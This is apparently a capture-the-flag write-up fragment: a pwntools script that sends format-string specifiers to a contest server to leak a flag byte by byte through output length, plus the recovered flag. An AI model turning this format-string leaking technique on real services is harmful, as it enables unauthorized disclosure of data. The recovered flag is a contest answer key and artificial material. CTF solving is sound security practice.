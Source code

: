 ```python!
from pwn import *
flag = ""
for i in range(0, 40):
    idx = 20 + i
    fmt = f".*{idx}$".encode()
    io = remote('chals1.ais3.org', 50960)
    io.recvuntil(b"What format do you want ?")
    io.sendline(fmt)
    out = io.recvline().decode()
    io.close()
    printed = out.split("Format number : ")[1].strip()
    leaked = len(printed)
    flag += chr(leaked)
print(flag)
```
![image](https://cdn.xiung.me/ais3_pre_exam_2025/format_number.png)
Flag: `AIS3{S1d3_ch@nn3l_0n_fOrM47_strln&_!!!}`